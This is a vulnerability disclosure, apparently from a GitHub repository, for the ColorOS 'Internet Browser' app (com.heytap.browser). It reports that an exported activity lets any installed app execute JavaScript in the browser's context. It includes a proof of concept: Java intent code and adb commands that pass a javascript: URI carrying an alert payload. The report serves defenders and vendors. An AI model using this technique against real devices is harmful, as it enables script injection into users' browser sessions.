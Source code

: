 ## Vulnerability Report

### Overview:
A Remote Code Execution (RCE) vulnerability has been discovered in the `com.heytap.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - ColorOS
- **Application Name:** 'Internet Browser' `com.heytap.browser`
- **Version:** 45.10.3.4.1
- **Component:** com.android.browser.RealBrowserActivity

### Vulnerability Details:

- **Vulnerability Type:** JavaScript Code Execution
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.android.browser.RealBrowserActivity` activity in the `com.heytap.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.heytap.browser`` application.

This vulnerability is particularly concerning because:
- The victim does not need to grant any special permissions to any installed applications.
- The attack can be initiated remotely.

### Proof of Concept (PoC):


```
{
        super.onCreate(savedInstanceState);

        String javaScriptCommand = "javascript:alert%28%27Test%20Alert%27%29%3B";

        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setData(Uri.parse(javaScriptCommand));
        intent.setClassName("com.heytap.browser", "com.android.browser.RealBrowserActivity");

        startActivity(intent);

        finish();
    }
```

```
adb shell am start -a android.intent.action.VIEW -d "http://example.com" -n com.heytap.browser/com.android.browser.RealBrowserActivity

adb shell am start -a android.intent.action.VIEW -d "javascript:alert%28%27Test%20Alert%27%29%3B" -n com.heytap.browser/com.android.browser.RealBrowserActivity

```

![poc-coloros](https://github.com/actuator/com.heytap.browser/assets/78701239/952f08c7-b8d6-4982-80bb-28b693b20134)




### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.heytap.browser` app.


### Mitigation and Recommendations:

1. **Restrict Activity Export:** Do not export activities unless necessary.


